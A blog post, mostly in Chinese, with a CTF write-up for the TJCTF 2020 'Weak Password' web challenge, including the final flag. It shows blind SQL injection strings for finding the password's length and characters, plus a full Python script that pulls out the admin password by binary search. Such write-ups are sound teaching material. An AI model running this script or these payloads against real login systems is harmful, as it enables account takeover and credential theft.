 ```yaml
---
title: TJCTF 2020 - Weak Password (Web)
date: 2020-05-29 11:37:12
categories: 
- CTF
tag:
- TJCTF 2020
- Web Challenge
- blind SQLi
---
```


Writeups 搬自 [MacacaHub TJCTF 2020 Writeups](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/readme.md)

這題雖然叫Weak Password，但我當時遇到真的戳不出來呢 ; w ;

最後賽後隊友提點才知道原來是**Blind SQL injection**，平常我只拿`' or 1=1 -- `戳戳根本是小兒科ww

<!--more-->

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/01.png?raw=true)

## Solution

標題同樣為**Weak Password**，T貓盃只有`admin`:`admin`，這裡反而沒有這麼簡單XD

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)，當然也可以從網頁把`password`每個字元慢慢猜出來，但身為未來工程屍... 還是寫個Code吧 : )

![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/02.png?raw=true)

How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。

{% gp 2-2 %}
![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/03.png?raw=true)
![](https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/04.png?raw=true)
{% endgp %}

例如，猜`password`長度：

`admin' and length(password) > 13 -- ` --> success

`admin' and length(password) > 14 -- ` --> fail

`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。
<br>

又例如，猜`password`第一個字元：

`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success

`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail

`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

<br>
再來就是寫Code了，可以搭配 **Binary search** 加速搜尋~

然後用回傳的request長度判斷結果是否成功。

{% codeblock solve.py lang:python %}
import requests
import string

# Send request and get result
def inject(n, opr, char):
    url = 'https://weak_password.tjctf.org/login'
    payload = {"username": "admin' and unicode(substr(password, {})) \\
    {} unicode('{}')-- ".format(n, opr,char), "password": "123"}
    r = requests.post(url, data=payload)
    return True if len(r.text)==1842 else False #1842:success

res = ""
li = list(string.digits + string.ascii_lowercase)
for i in range(1, 20):
    
    l = 0
    r = len(li) - 1

    # end up binary search if it can't checkout any character
    if inject(i, '>', li[0]) == False:
        print('password: '+res)
        break

    while l <= r:
        mid = (l +(r+1)) // 2
        #print(l, r, mid)
        if inject(i, '=', li[mid]):
            res = res + li[mid]
            break
        elif inject(i, '>', li[mid]):
            l = mid
        elif inject(i, '<', li[mid]):
            r = mid
        else:
            break
    print(res)
{% endcodeblock %}

### Result
<img src="https://github.com/MacacaHub/CTF-writeups/blob/master/TJCTF%202020/Weak%20Password/05.png?raw=true" width="500" align="center"/>

> tjctf{blindsqli14519}
